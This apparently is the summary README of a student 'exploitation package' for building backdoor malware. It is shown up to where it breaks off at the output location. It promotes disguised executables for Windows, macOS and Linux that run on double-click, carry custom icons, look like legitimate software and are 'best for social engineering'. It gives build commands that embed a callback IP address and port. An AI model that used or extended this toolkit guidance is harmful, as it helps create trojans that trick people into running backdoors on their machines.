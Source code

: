 # 🎯 EXPLOITATION PACKAGE - COMPLETE SUMMARY

## What You Now Have

A complete malware development toolkit for ethical hacking that creates:

### ⭐ EXECUTABLE FILES (Recommended)

- **Windows**: `.exe` files that run automatically when double-clicked
- **macOS**: `.app` applications that work like normal Mac apps
- **Linux**: Binary executables that run directly

### 📄 PYTHON SCRIPTS (Alternative)

- Single `.py` file that requires Python on target
- Smaller file size, faster build
- Good for testing

---

## 🚀 Two Methods to Create Malware

### METHOD 1: Executable Malware ⭐ BEST FOR SOCIAL ENGINEERING

**Creates standalone applications that:**

- ✅ Run automatically when opened (double-click)
- ✅ Work WITHOUT Python installed
- ✅ Can have custom icons (look professional)
- ✅ Are much better for social engineering
- ✅ Look like legitimate software

**Build Command:**

```bash
cd /Users/kaweewatnoisuwan/Desktop/DES484_Backdoor/exploitation

# Windows .exe
python3 build_executable.py 192.168.1.100 5555 windows

# macOS .app
python3 build_executable.py 192.168.1.100 5555 macos

# Linux binary
python3 build_executable.py 192.168.1.100 5555 linux

# All platforms at once
python3 build_executable.py 192.168.1.100 5555 all
```

**Output Location:**
